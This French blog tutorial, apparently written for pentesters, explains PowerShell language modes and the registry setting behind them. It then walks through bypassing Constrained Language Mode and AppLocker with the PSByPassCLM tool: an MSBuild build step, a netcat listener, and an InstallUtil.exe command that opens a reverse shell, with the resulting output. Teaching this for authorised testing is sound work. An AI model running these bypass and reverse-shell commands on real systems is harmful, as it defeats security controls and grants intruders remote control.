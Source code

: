 ```yaml
---
title: "[CLM] Bypass le mode de langage contraint en PowerShell"
description: clm.jpg
tags: ["Dans cet article je vous présente le système CLM (Constrained Language Mode) vous montrez le fonctionnement et de vous montrez comment bypass ce système qui vous donne pas assez de permissions dans un système PowerShell."]
---
```


![Flower](../clm.jpg)

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça. <br />

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose. <br />

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il est disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- RestrictedLanguage
- NoLanguage 
- ConstrainedLanguage

### LANGUE COMPLÈTE (FullLanguage) :

Le mode de langue `FullLanguage` autorise tous les éléments de langue de la session. FullLanguage est le mode de langue par défaut pour les sessions par défaut sur toutes les versions de Windows, à l'exception de `Windows RT`.

### LANGUE RESTREINTE (RestrictedLanguage) :

En mode linguistique `RestrictedLanguage`, les utilisateurs peuvent exécuter des commandes (applets de commande, fonctions, commandes CIM et workflows), mais ne sont pas autorisés à utiliser des blocs de script.

### AUCUNE LANGUE (NoLanguage) :

En mode linguistique `NoLanguage`, les utilisateurs peuvent exécuter des commandes, mais ils ne peuvent utiliser aucun élément de langage dans un PowerShell.

### LANGUE CONTRAINTE (Constrained Language) :

Le mode de langage `ConstrainedLanguage` autorise toutes les cmdlets Windows et tous les éléments de langage PowerShell, mais limite les types autorisés.

CHANGER DE LANGUE/MODE
----

Il est tout à fait possible de changer de `LANGUE/MODE` depuis le registre pour assurer la sécurité, il y a d'autre moyen également, par exemple faire avec le système `GPO` (Group Policy Object) dans un environnement `Active Directory`.

![Flower](https://image.noelshack.com/fichiers/2019/23/2/1559643342-screenshot-1.png)

Le chemin pour modifier de `LANGUE/MODE` est dans `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`, et par défaut il y'a pas de `Valeur chaîne/REG_SZ` qui se nomme `__PSLockdownPolicy`, il faut créé une valeur qui se nomme `__PSLockdownPolicy` et il accepte seulement 4 `donnée(s)`.

Donnée (1)  : Pour le `FullLanguage`. <br />
Donnée (2) : Pour le `RestrictedLanguage`. <br />
Donnée (3) : Pour le `NoLanguage`. <br />
Donnée (4) : Pour le `ConstrainedLanguage` <br />

DEMONSTRATION
----

Actuellement je suis en mode `FullLanguage`. La commande à exécuter pour examiner le mode de `LANGAGE` de votre session PowerShell `$ExecutionContext.SessionState` :

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559581679-screenshot-2.png)

Comme vous pouvez le constater, je suis en mode `FullLanguage`, cette fonctionnalité designe justement j'ai les permissions pour exécuter des tâches, ce qui est plutôt pas mal. Mais dans certains cas assez étrange, vous pouvez percevoir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien simplement pour la sécurité : <br />

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559586084-screenshot-4.png)

Concrètement d'après l'information je suis en mode `ConstrainedLanguage`, donc impossible d'exécuter un fichier à distance, télécharger des fichiers à distance etc.. Notre but maintenant c'est de changer de mode de `LANGAGE` passer de `ConstrainedLanguage` à `FullLanguage` pour effectuer des actions sur le système avec la session PowerShell. 

.NET
----
Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Exécuter` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Activer ou désactiver des fonctionnalités Windows`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559583478-screenshot-5.png)

Build
----
Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`. Le dossier de `.NET` est situer dans `C:\Windows\Microsoft.NET\Framework64\v4*`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

Reverse Shell
----
Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` car dans certaines configuration on peut `BYPASS` le système `AppLocker`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585660-screenshot-2.png)

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60002
    PS C:\Windows\System32> $ExecutionContext.SessionState.LanguageMode
    FullLanguage

CONCLUSION
----

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, aura éclairci certaines choses. C'était indéniable de vous présenter ce système car en `PENTEST` dans les machines `Windows` ça m'est déjà arrivé et c'était nécessaire de faire un `TUTORIAL` sur ce système.

